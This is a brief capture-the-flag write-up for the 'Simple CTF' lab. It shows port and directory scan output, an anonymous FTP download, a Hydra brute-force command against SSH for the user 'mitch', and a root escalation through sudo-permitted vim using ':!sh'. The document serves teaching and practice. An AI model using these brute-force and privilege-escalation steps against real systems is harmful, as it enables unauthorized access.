

# Simple CTF Report

---

## Enumeration

Initial network enumeration was performed using **Nmap**, which revealed the following open ports:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Web enumeration using **FFUF** revealed the following endpoints:

```
index.html              [Status: 200, Size: 11321]
robots.txt              [Status: 200, Size: 929]
server-status           [Status: 403, Size: 301]
simple                  [Status: 301, Redirect]
```

The `/simple` directory hosted a vulnerable CMS—key to one of the CTF challenges.

---

## FTP Access

Anonymous login to the FTP service was allowed. Using the following command:

```bash
wget -m --no-passive ftp://anonymous:anonymous@<TARGET>
```

A text file was retrieved indicating that a developer named `mitch` used weak credentials.

---

## SSH Access

Brute-forcing SSH credentials for the user `mitch` on port `2222` was successful using **Hydra**:

```bash
hydra -l mitch -P /path/to/wordlist.txt ssh://<IP_ADDRESS>:2222
```

Credentials were successfully obtained:



---

## Privilege Escalation

Privilege escalation was achieved by checking `sudo` permissions:

```bash
sudo -l
```

The user `mitch` had permission to run `vim` as root. Since `vim` can execute shell commands, root access was gained by running:

```vim
:!sh
```

Root access confirmed.

---
